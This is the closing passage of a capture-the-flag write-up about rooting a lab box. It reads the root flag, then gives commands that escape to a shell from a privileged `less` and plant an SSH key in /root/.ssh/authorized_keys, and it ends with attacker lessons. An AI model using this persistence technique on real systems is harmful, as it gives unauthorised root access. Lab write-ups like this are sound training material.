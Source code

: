 ![privesc 1](privesc%201.png)

:tada: From there, simply `cat` out the flag for those sweet root flag points! Congratulations. 



## EXTRA CREDIT: PWN

To take it one step further, gain full root access by planting another SSH key. Generate a new SSH key as we did before:

```
ssh-keygen -t rsa -b 2048
[output to ./root_id_rsa and used passphrase "password"]
chmod 700 id_rsa
base64 -w 0 root_id_rsa.pub > root_id_rsa.pub64
cat root_id_rsa.pub64
[copy the output to clipboard]
```

Then use the same "feature" of `less` to plant the SSH key:

```
!echo "[paste the contents of root_id_rsa.pub64]" | base64 -d >> /root/.ssh/authorized_keys
```

From the attacker box, use SSH to log in as root with the newly-generated key:

![root ssh](root%20ssh.png)

:sunglasses: There it is: full root access over SSH!



## LESSONS LEARNED

### Attacker

- **Once you know the application and version, spend a minute looking for known vulnerabilities**. I spent far too long enumerating the box and the Requests-Basket API, reading through piles of javascript to get a feel for how the app worked. While it was mildly interesting, very little of that knowledge was useful in gaining a foothold for the box.
- **Remember the filtered ports**. In my typical port scan, the filtered ports don't show up individually - I only get a count of how many filtered ports were observed. I need to remember to go back and do another port scan if *any* filtered ports were detected.
- Read through the directory where your reverse shell opens. There's a higher likelihood of finding the vulnerability in or around a misconfigured application, so it should be top priority during enumeration.
- **Full-screen console app? Check for ability to run shell commands**. There are many examples of where this appears, including less, vim, ftp, mysql, etc. Many applications, especially older ones that came to popularity before multi-window systems, have some ability to run shell commands without leaving the application itself. If that application was run in a privileged process, those privileges are not dropped while within the application, leaving to an easy privesc. 


### Defender
